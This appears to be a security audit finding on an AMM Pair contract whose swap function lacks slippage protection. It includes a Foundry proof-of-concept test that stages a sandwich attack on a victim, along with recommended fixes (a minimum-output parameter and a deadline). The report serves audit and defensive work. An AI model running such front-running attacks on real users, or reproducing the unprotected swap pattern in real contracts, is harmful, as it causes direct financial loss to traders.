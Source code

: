 ### [H-2] No slippage protection in swap function exposes users to front-running attacks

**Description:**
The `swap` function in the Pair contract does not include a parameter for minimum output amount (slippage protection). Without this protection, transactions are vulnerable to front-running and sandwich attacks where malicious actors can manipulate the price right before a user's transaction is executed.

```solidity
function swap(address fromToken, address targetToken, uint256 amountIn) external lock {
    uint256 amountOut = getAmountOut(fromToken, targetToken, amountIn);
    
    if (amountOut == 0) revert Pair_InsufficientOutput();

    // No check against a user-specified minimum output amount
    IERC20(fromToken).safeTransferFrom(msg.sender, address(this), amountIn);
    IERC20(targetToken).safeTransfer(msg.sender, amountOut);
    
    // Update reserves...
}
```

The lack of slippage protection is particularly problematic in blockchain environments where transactions can remain in the mempool for extended periods, giving opportunity for MEV (Miner Extractable Value) bots to exploit pending transactions.

**Impact:**
This vulnerability exposes users to several risks:

- Sandwich attacks can significantly reduce the value users receive from their swaps
- Front-running attacks could result in substantial financial losses for users
- Price volatility between transaction submission and execution can lead to users receiving much less than expected
- MEV bots are actively searching for and exploiting such vulnerabilities
- In high-volume trading or volatile market conditions, the impact can be magnified

**Proof of Concept:**
The following proof of concept demonstrates how a sandwich attack works against the current implementation:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.26;

import { Test } from "@forge-std/Test.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { ERC20Mock } from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import { Constants } from "../helpers/Constants.sol";
import { Pair } from "../../contracts/Pair.sol";

contract PairH2Test is Test, Constants {
    address attacker;
    address victim;
    
    function setUp() public {
        usdc = address(new ERC20Mock());
        weth = address(new ERC20Mock());
        pair = new Pair(usdc, weth);
        
        // Setup liquidity
        address liquidityProvider = makeAddr("liquidityProvider");
        deal(usdc, liquidityProvider, 1000000 * 10**6); // 1M USDC
        deal(weth, liquidityProvider, 500 * 10**18);    // 500 WETH
        
        vm.startPrank(liquidityProvider);
        IERC20(usdc).approve(address(pair), type(uint256).max);
        IERC20(weth).approve(address(pair), type(uint256).max);
        pair.addLiquidity(1000000 * 10**6, 500 * 10**18);
        vm.stopPrank();
        
        // Setup victim with some USDC to swap
        victim = makeAddr("victim");
        deal(usdc, victim, 10000 * 10**6); // 10K USDC
        
        // Setup attacker with some USDC to front-run
        attacker = makeAddr("attacker");
        deal(usdc, attacker, 100000 * 10**6); // 100K USDC
        deal(weth, attacker, 10 * 10**18);    // 10 WETH for initial balance
    }

       function test_SandwichAttack_VictimLosesValue() public {
        // Initial state
        (uint256 initialReserve0, uint256 initialReserve1) = pair.getReserves();
        uint256 victimUsdcAmount = 10000 * 10 ** 6; // 10K USDC

        // Calculate expected WETH output for victim without attack
        uint256 expectedWethOutput = pair.getAmountOut(usdc, weth, victimUsdcAmount);

        // 1. FRONT-RUN: Attacker executes a swap before the victim
        vm.startPrank(attacker);
        IERC20(usdc).approve(address(pair), 50000 * 10 ** 6);
        pair.swap(usdc, weth, 50000 * 10 ** 6); // Swap 50K USDC for WETH
        vm.stopPrank();

        // 2. VICTIM TRANSACTION: Victim's swap executes at worse price
        vm.startPrank(victim);
        IERC20(usdc).approve(address(pair), victimUsdcAmount);
        pair.swap(usdc, weth, victimUsdcAmount);
        uint256 victimWethReceived = IERC20(weth).balanceOf(victim);
        vm.stopPrank();

        // 3. BACK-RUN: Attacker swaps back
        vm.startPrank(attacker);
        uint256 attackerWethBalance = IERC20(weth).balanceOf(attacker);
        IERC20(weth).approve(address(pair), attackerWethBalance);
        pair.swap(weth, usdc, attackerWethBalance);
        vm.stopPrank();

        // Verify victim received less than expected
        assertLt(victimWethReceived, expectedWethOutput);
        console.log("Victim expected WETH:", expectedWethOutput); // 4935790171985306494
        console.log("Victim actual WETH received:", victimWethReceived); // 4479652608862130724
        console.log("Value lost to sandwich attack:", expectedWethOutput - victimWethReceived); // 456137563123175770

        // Verify attacker profited
        uint256 attackerUsdcProfit = IERC20(usdc).balanceOf(attacker) - 50000 * 10 ** 6;
        assertTrue(attackerUsdcProfit > 0);
        console.log("Attacker profit in USDC:", attackerUsdcProfit); // 70552688938
    }
}
```

**Recommended Mitigation:**
Add a minimum output amount parameter to the swap function to enforce slippage protection:

```solidity
function swap(
    address fromToken, 
    address targetToken, 
    uint256 amountIn, 
    uint256 amountOutMin
) external lock {
    uint256 amountOut = getAmountOut(fromToken, targetToken, amountIn);
    
    // Enforce minimum output amount
    if (amountOut < amountOutMin) {
        revert Pair_SlippageExceeded(amountOut, amountOutMin);
    }
    
    // Continue with swap
    IERC20(fromToken).safeTransferFrom(msg.sender, address(this), amountIn);
    IERC20(targetToken).safeTransfer(msg.sender, amountOut);
    
    // Update reserves...
}
```

Additionally, consider implementing:

1. A deadline parameter to prevent lingering transactions:
```solidity
function swap(
    address fromToken, 
    address targetToken, 
    uint256 amountIn, 
    uint256 amountOutMin,
    uint256 deadline
) external lock {
    if (block.timestamp > deadline) {
        revert Pair_Expired();
    }
    // Rest of function...
}
```

2. A dedicated Router contract that handles swap logic with built-in slippage protection and deadline checks